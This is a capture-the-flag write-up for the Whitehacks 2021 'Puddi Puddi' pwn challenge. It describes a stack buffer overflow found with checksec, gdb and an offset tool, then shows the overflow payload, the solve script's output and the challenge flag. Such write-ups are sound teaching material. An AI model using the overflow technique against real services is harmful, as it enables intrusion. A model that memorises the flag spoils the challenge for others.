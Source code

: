 # Puddi Puddi
981, PWN, 12 SOLVES


### Description
Why have a MEGA 🍮 when you can have a GIGA 🍮?

Interact with the service using nc chals.whitehacks.ctf.sg 20301 to get started!

### Attached Files
exploit-template.py
puddi

## Team
NYCP

## Category
Pwn


## Flag
`WH2021{3880fba0faf0_g1g4_pudd1}`

## Steps

### Strategy

```
$ checksec puddi
[*] '/mnt/c/Users/zunmu/Documents/Stuff/Github/Solutions/Cyber Security/Capture the Flag Competitions/2021/Whitehacks 2021/Pwn/Puddi Puddi/puddi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

After reading the code, I thought it is a typical buffer overflow problem, to overflow the variable such that you modify the other variables on the stack.

So this is what I did (or what I think I did my brain dead)
1. I decompiled the code, and figured out it is comparing a target variable with the string `GIGA`
2. Get the size of the stack using the gdb command `print $rbp-$rsp`. $rbp is the base pointer, $rsp is the stack pointer. I set a hook to keep printing the stack
3. I used this [amazing tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to generate a buffer overflow pattern. After that I read the stack and see the data in the memory location of the target variable. Putting the data in the tool again gives me the offset
4. Replace the appropriate data in the string with the string `GIGA`

### Getting the flag from the server using a python program

Just use pwntools 

```
$ python solve.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGIGA
[+] Opening connection to chals.whitehacks.ctf.sg on port 20301: Done
PUDDI PUDDI!
[*] Switching to interactive mode

PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888


WH2021{3880fba0faf0_g1g4_pudd1}

[*] Got EOF while reading in interactive
$                
```
